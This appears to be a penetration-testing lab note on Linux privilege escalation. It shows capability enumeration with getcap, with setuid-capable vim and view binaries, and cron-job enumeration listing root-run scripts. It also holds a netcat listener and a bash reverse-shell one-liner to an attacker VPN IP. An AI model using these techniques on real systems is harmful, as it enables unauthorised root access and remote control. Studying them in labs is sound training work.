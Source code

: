 ## Get Capabilities Enumeration
`getcap -r / 2>/dev/null` - gets capabilities set for current user
research any on [GTFOBins](https://gtfobins.github.io/)
```
$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```
### LOOK FOR :py vs :py3 in GTFOBins compared to what the system might have

## Cron Jobs
> NetCat reverse listener: `nc -nvlp 9999`

> Bash reverse shell: `bash -i >& /dev/tcp/**My_VPN_IP**/9999 0>&1`

`cat /etc/crontab` - read cron jobs
```
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```
